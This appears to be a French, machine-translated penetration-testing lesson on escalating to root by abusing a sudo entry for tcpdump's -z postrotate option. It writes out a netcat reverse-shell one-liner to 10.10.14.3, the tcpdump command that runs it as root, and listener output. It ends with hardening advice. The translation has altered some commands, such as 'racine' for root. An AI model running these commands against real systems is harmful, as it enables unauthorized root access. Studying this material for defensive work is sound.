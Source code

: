 Abus des droits Sudo
=================

* * * * *

Des privilèges Sudo peuvent être accordés à un compte, permettant au compte d'exécuter certaines commandes dans le contexte de la racine (ou d'un autre compte) sans avoir à changer d'utilisateur ou à accorder des privilèges excessifs. Lorsque la commande `sudo` est émise, le système vérifie si l'utilisateur qui émet la commande dispose des droits appropriés, comme configuré dans /etc/sudoers. Lors de l'atterrissage sur un système, nous devons toujours vérifier si l'utilisateur actuel dispose de privilèges sudo en tapant `sudo -l`. Parfois, nous aurons besoin de connaître le mot de passe de l'utilisateur pour répertorier ses droits `sudo` , mais toutes les entrées de droits avec l'option `NOPASSWD` sont visibles sans saisir de mot de passe.

```
htb_student@NIX02 :~$ sudo -l

Entrées par défaut correspondantes pour sysadm sur NIX02 :
     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

L'utilisateur sysadm peut exécuter les commandes suivantes sur NIX02 :
     (racine) NOPASSWD : /usr/sbin/tcpdump

```

Il est facile de mal configurer cela. Par exemple, un utilisateur peut se voir accorder des autorisations de niveau racine sans avoir besoin d'un mot de passe. Ou la ligne de commande autorisée peut être spécifiée de manière trop vague, ce qui nous permet d'exécuter un programme de manière involontaire, ce qui entraîne une élévation des privilèges. Par exemple, si le fichier sudoers est modifié pour accorder à un utilisateur le droit d'exécuter une commande telle que `tcpdump` selon l'entrée suivante dans le fichier sudoers : `(ALL) NOPASSWD : /usr/sbin/tcpdump` un attaquant pourrait exploiter ceci pour tirer parti de l'option postrotate-command .

```
htb_student@NIX02 :~$ man tcpdump

<SNIP>
-z postrorate-commande

Utilisé en conjonction avec les options -C ou -G, cela fera exécuter `tcpdump` " postrotate-command file " où le fichier est le fichier de sauvegarde fermé après chaque rotation. Par exemple, spécifier -z gzip ou -z bzip2 compressera chaque fichier de sauvegarde à l'aide de gzip ou bzip2.

```

En spécifiant l'indicateur `-z` , un attaquant pourrait utiliser `tcpdump` pour exécuter un script shell, obtenir un shell inversé en tant qu'utilisateur root ou exécuter d'autres commandes privilégiées. Par exemple, un attaquant pourrait créer le script shell `.test` contenant un shell inversé et l'exécuter comme suit :

```
htb_student@NIX02 :~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

```

Essayons ça. Tout d'abord, créez un fichier à exécuter avec la `commande postrotate`, en ajoutant une simple ligne inversée de shell.

```
htb_student@NIX02 :~$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f

```

Ensuite, démarrez un écouteur `netcat` sur notre boîte d'attaque, exécutez `tcpdump` en tant que root avec la `commande postrotate`. Si tout se passe comme prévu, nous recevrons une connexion root reverse shell.

```
htb_student@NIX02 :~$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z racine

abandonné les privilèges à la racine
tcpdump : écoute sur ens192, type de lien EN10MB (Ethernet), taille de capture 262 144 octets
Limite maximale de fichiers atteinte : 1
1 paquet capturé
6 paquets reçus par filtre
compress_savefile : execlp(/tmp/.test, /dev/null) a échoué : autorisation refusée
0 paquet abandonné par le noyau

```

Nous recevons un shell racine presque instantanément.

```
dsgsec@htb[/htb]$ nc -lnvp 443

écoute sur [tout] 443 ...
se connecter à [10.10.14.3] depuis (INCONNU) [10.129.2.12] 38938
bash : impossible de définir le groupe de processus de terminal (10797) : ioctl inapproprié pour le périphérique
bash : pas de contrôle des tâches dans ce shell

root@NIX02 :~# id && nom d'hôte
identifiant && nom d'hôte
uid=0(racine) gid=0(racine) groupes=0(racine)
NIX02

```

[AppArmor](https://wiki.ubuntu.com/AppArmor) dans les distributions plus récentes, a prédéfini les commandes utilisées avec `postrotate-command`, empêchant efficacement l'exécution de la commande. Deux bonnes pratiques à toujours prendre en compte lors du provisionnement des droits `sudo` :

| | |
| --- | --- |
| 1. | Spécifiez toujours le chemin absolu vers tous les fichiers binaires répertoriés dans l'entrée de fichier `sudoers` . Sinon, un attaquant peut être en mesure d'exploiter l'abus de PATH (que nous verrons dans la section suivante) pour créer un binaire malveillant qui sera exécuté lors de l'exécution de la commande (c'est-à-dire si l'entrée `sudoers` spécifie `cat` au lieu de ` /bin/cat` cela pourrait probablement être abusé). |
| 2. | Accordez les droits `sudo` avec parcimonie et en vous basant sur le principe du moindre privilège. L'utilisateur a-t-il besoin de tous les droits `sudo` ? Peuvent-ils toujours effectuer leur travail avec une ou deux entrées dans le fichier `sudoers` ? Limiter la commande privilégiée qu'un utilisateur peut exécuter réduira considérablement la probabilité d'une élévation réussie des privilèges. |